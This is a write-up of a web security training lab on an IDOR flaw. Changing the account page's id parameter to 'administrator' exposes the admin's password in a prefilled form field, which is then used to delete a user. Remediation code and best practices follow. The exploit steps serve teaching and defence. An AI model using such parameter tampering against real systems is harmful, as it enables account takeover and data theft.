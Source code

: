 # User ID Controlled by Request Parameter with Password Disclosure

**Difficulty:** `APPRENTICE` | **Category:** `Access Control`

---

## 🎯 Lab Goal

Retrieve the administrator's password through IDOR vulnerability, log in as admin, and delete user "carlos".

---

## 📋 Lab Description

The lab leaks the current user's password in a masked input field on the account page, combined with an IDOR vulnerability.

---

## 🔎 Reconnaissance

### Initial Access

Logged in with provided credentials:

| Field | Value |
|-------|-------|
| Username | `wiener` |
| Password | `peter` |

### Account Page Analysis

Intercepted the request to account page in Burp Suite:

```http
GET /my-account?id=wiener HTTP/1.1
```

---

## 🧪 Testing & Exploitation

### Step 1: Identify IDOR Vulnerability

Original request:
```http
GET /my-account?id=wiener
```

🔍 **Vulnerability:** User ID parameter is not validated for authorization.

### Step 2: Access Administrator Account

Modified the request to target administrator:

**Original:**
```http
GET /my-account?id=wiener
```

**Modified:**
```http
GET /my-account?id=administrator
```

### Step 3: Extract Password from Response

The response HTML included a **prefilled password field**:

```html
<input required type="password" name="password" value="au4t1huan8gt29fmfiqg"/>
```

🔑 **Administrator Password:** `au4t1huan8gt29fmfiqg`

### Step 4: Admin Login

Logged in with extracted credentials:

| Field | Value |
|-------|-------|
| Username | `administrator` |
| Password | `au4t1huan8gt29fmfiqg` |

### Step 5: Delete User

Accessed admin panel and successfully deleted user "carlos".

---

## 🚩 Solution

**Exploit Request:**
```http
GET /my-account?id=administrator
```

**Leaked Password:** `au4t1huan8gt29fmfiqg`

---

## 💡 Key Takeaways

### Multiple Vulnerabilities Combined

This lab demonstrates **two critical vulnerabilities**:

1. **IDOR (Insecure Direct Object Reference)**
   - No authorization check on user ID parameter
   - Can access any user's account page

2. **Sensitive Data Exposure**
   - Password stored in plaintext in HTML
   - Visible in page source even if masked in UI

### Password Exposure Patterns

Common ways passwords leak in applications:

| Method | Example | Risk |
|--------|---------|------|
| Prefilled forms | `value="password123"` | Critical |
| JavaScript variables | `var pwd = "secret"` | High |
| HTML comments | `<!-- pass: admin -->` | High |
| Error messages | `Invalid password: abc123` | Medium |
| API responses | `{"password": "secret"}` | Critical |

---

## 🛡️ Remediation

### Fix IDOR Vulnerability

**❌ Bad (No Authorization):**
```python
@app.route('/my-account')
def account():
    user_id = request.args.get('id')
    user = User.query.filter_by(username=user_id).first()
    return render_template('account.html', user=user)
```

**✅ Good (With Authorization):**
```python
@app.route('/my-account')
@login_required
def account():
    requested_user = request.args.get('id')
    current_user = session['username']
    
    if requested_user != current_user:
        abort(403)
    
    user = User.query.filter_by(username=current_user).first()
    return render_template('account.html', user=user)
```

### Fix Password Exposure

**❌ Bad (Password in HTML):**
```html
<input type="password" name="password" value="{{ user.password }}">
```

**✅ Good (Never Send Password to Client):**
```html
<!-- Password change form -->
<input type="password" name="current_password" placeholder="Current Password">
<input type="password" name="new_password" placeholder="New Password">
<input type="password" name="confirm_password" placeholder="Confirm New Password">
```

### Best Practices

#### Access Control
- ✅ **Validate ownership** on every request
- ✅ **Use session-based access** instead of parameters
- ✅ **Implement proper RBAC**
- ✅ **Log unauthorized access attempts**

#### Password Security
- ✅ **Never send passwords to client** (even hashed)
- ✅ **Use password change flows** requiring current password
- ✅ **Store passwords with strong hashing** (bcrypt, Argon2)
- ✅ **Never log passwords**
- ✅ **Implement password complexity requirements**

#### Secure Password Change Flow

```python
@app.route('/change-password', methods=['POST'])
@login_required
def change_password():
    current = request.form.get('current_password')
    new = request.form.get('new_password')
    
    user = User.query.get(session['user_id'])
    
    # Verify current password
    if not user.verify_password(current):
        return "Invalid current password", 403
    
    # Update to new password (hashed)
    user.set_password(new)
    db.session.commit()
    
    return "Password updated successfully"
```

### Security Headers

```python
# Never cache pages with sensitive data
@app.after_request
def set_headers(response):
    response.headers['Cache-Control'] = 'no-store, no-cache, must-revalidate'
    response.headers['Pragma'] = 'no-cache'
    response.headers['X-Content-Type-Options'] = 'nosniff'
    return response
```

---

**Status:** ✅ Solved
